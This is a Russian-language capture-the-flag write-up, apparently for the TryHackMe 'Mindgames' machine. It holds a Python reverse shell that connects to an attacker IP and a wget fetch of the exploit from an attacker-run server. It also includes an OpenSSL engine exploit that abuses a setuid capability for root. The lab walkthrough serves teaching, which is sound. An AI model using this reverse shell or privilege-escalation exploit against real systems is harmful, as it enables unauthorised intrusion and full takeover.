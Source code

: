 # Mindgames

:white_check_mark:  [**Brainfuck**](#brainfuck)

:white_check_mark: [**Stabiling shell**](#stable)

:white_check_mark: [**Openssl(capabilities)**](#openssl_cap)

:white_check_mark: [**Sending files**](#files_send)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV mind.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **mind.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/1.png)

<a name="brainfuck"></a>

## Getting shell
Видим набор странных символов. Так выглядит **brainfuck**. Перейдем на сайт [dcode](https://www.dcode.fr/brainfuck-language) и раскодируем текст.
```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
```
print("Hello, World")
```

Попробуем подставить закодированный вариант кода в строку для ввода данных. Получаем ответ: **Hello, World**. Приложение обрабатывает закодированный запрос и выдает ответ. Загрузим туда обратную оболочку.

Обратная оболочка:
```
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.61.235",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Вставим код на [сайте](https://www.splitbrain.org/services/ook) для кодирования(на нем проще скопировать код, чем на dcode). Получаем ответ, копируем его и вставляем в наше приложение.

Предварительно запустив слушатель, получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/2.png)

<a name="stable"></a>

Стабилизируем оболочку командами:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+z
stty raw echo; fg
```

<a name="openssl_cap"></a>

## Getting root
Загрузим linpeas на машину и запустим скрипт. Он найдет нам интересные capabilities:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/3.png)

Найдем в интернете [эксплоит](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

Создадим файл с названием **openssl-exploit-engine.c** и запишем в него следующий код:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

(Предварительно установим нужные пакеты командой **sudo apt-get install libssl-dev**).

Скомпилируем код командами:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Отправим наш скомпилированный файл на удаленную машину и запустим командой:
```
openssl req -engine ./openssl-exploit-engine.so
```

Получаем рут

<a name="files_send"></a>

## Extra
Чтобы отправить файл на удаленную машину переходим в директорию с нужным нам файлом. Открываем питон сервер командой:
```
python3 -m http.server 2222
```

На удаленной машине с помощью **wget** или **curl** скачиваем нужный нам файл:
```
wget http://your-ip/2222/openssl-exploit-engine.so
```

![](https:/github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/5.png)
